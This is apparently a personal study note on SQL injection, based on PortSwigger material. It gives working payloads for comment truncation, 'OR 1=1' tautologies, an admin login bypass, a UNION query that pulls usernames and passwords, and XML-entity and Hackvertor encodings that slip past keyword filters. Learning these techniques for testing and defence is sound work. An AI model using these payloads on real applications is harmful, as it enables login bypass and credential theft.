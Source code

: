 # SQL Injection

Cheat sheet: <https://portswigger.net/web-security/sql-injection/cheat-sheet>

## Basic injection

Given an application that allows user input to select a category:

``` sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

This is exploitable the below input:

``` sql
'--
```

Resulting in a query like:

``` sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

or,

``` sql
SELECT * FROM products WHERE category = 'Gifts'
```

This can return all gifts, whether released is 0 or 1. We can also list all categories using:

``` sql
' OR 1=1--
```

resulting in:

``` sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

which returns all items.

## Application logic

If an application is vulnerable to SQLi for something like a login workflow, its sometimes possible to login without a passowrd.

Given application logic that does something like:

``` sql
SELECT * FROM users WHERE username = 'admin' AND password = 'adminPassword'
```

then injecting:

``` sql
admin'--
```

results in a query like:

``` sql
SELECT * FROM users WHERE username = 'admin'
```

## Retrieving data in other tables

In an SQLi vulnerable application, utilize UNION in to retrieve data from other tables:

Given:

``` sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

then injecting the following will return all usernames and passwords:

``` sql
' UNION SELECT username, password from users--
```

## Obfuscating injections

To prevent being blocked by validation steps, such as removing the SELECT keyword, its always possible to encode the injection attempt. The below example uses an XML escape sequence to encode the letter `S`:

``` xml
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```

The Hackvertor extension is also useful:

``` xml
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```

